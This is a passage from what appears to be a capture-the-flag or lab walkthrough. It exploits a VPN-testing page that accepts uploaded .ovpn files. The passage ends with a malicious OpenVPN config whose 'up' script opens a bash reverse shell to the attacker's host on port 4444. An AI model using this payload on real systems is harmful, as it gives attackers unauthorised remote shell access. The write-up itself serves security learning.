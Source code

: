 We can take a look at this using a browser with proxychains configured.&#x20;

### DNS Server

The page reveals a DNS server:

<figure><img src="../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

The first link doesn't work, but the second brings us to this page where .ovpn files can be uploaded and tested.

<figure><img src="../../../.gitbook/assets/image (3320).png" alt=""><figcaption></figcaption></figure>

Googling around for possible exploits reveals that it is possible for us to gain a reverse shell using .ovpn files. First we need to find the local IP Address of the machine, which is 192.168.122.1 when inspecting `ip addr` output.

<figure><img src="../../../.gitbook/assets/image (2390).png" alt=""><figcaption></figcaption></figure>

Then, we can input the following file and run Test VPN.&#x20;

```
remote 192.168.122.1
dev tun
nobind
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/4444 0>&1'"
```
